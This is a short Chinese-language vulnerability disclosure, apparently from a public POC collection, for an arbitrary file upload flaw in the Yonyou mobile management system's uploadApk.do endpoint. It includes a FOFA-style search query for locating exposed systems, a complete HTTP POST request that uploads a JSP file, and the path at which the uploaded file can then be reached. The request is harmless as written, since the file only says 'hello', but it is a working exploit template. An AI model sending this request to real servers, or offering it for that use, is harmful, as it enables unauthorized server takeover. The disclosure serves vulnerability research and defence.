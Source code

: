 # 用友 移动管理系统 uploadApk.do 任意文件上传漏洞

## 漏洞描述

用友 移动管理系统 uploadApk.do 接口存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

<a-checkbox checked>用友 移动管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="用友-移动系统管理"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1690733969075-570bd9ef-782e-45d7-acf7-b190f55e893b.png)

验证POC

```http
POST /maportal/appmanager/uploadApk.do?pk_obj= HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvLTG6zlX0gZ8LzO3
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: JSESSIONID=4ABE9DB29CA45044BE1BECDA0A25A091.server
Connection: close

------WebKitFormBoundaryvLTG6zlX0gZ8LzO3
Content-Disposition: form-data; name="downloadpath"; filename="a.jsp"
Content-Type: application/msword

hello
------WebKitFormBoundaryvLTG6zlX0gZ8LzO3--
```

![img](../../../.vuepress/public/img/1690734721298-07fdce57-e0e9-4130-8bea-9a5e4aebb19b.png)

```http
/maupload/apk/a.jsp
```